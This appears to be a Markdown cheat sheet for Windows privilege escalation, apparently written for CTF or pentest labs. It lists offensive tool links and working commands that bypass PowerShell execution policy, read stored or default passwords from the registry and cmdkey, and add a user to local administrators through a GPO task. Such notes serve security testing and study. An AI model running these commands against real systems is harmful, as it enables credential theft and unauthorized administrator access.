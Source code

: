 # Window Privesc "Source Links"

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## PrivescCheck
- Link
```
https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
___________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Window Privesc Normal
## PowerUp
- Check Default Username and Password from Registry
```
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v AutoAdminLogon
```

- Check the service that current user can modify
```
Get-ModifiableService
```

- Check the unquoted service name
```
Get-ServiceUnquoted
```

## PrivescCheck
- Load ps1 script and run 
```
powershell -ep bypass -c ". .\PrivescCheck.ps1;Invoke-PrivescCheck "
```

- Check window services for user escalating
```AInvoke-ServiceAudit
```

- Check outdated and potentially vulnerable software
```
Invoke-AuditInstalledPrograms
```
## Unattendend Installation Files

- Default File Location
```
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Autounattended.xml
```

## Window Credential Manager (Manual)
- Check Stored Credential
```
cmdkey /list
```

- Login using saved credentials ( can also run malicious shell.exe instead of cmd )
```
runas.exe /savecred /user:administrator cmd
```

## Powershell History
- Check history file location
```
C:\Users\student\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_History.txt
```

## Insecure Service Permissions 
- Check the vulnerable service with PowerUp, AccessChk or metasploit
- Check permissions by ACL or by all means
- Modify the service configuration
- Restart the service
```

```

___________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Advanced PrivESC Techniques
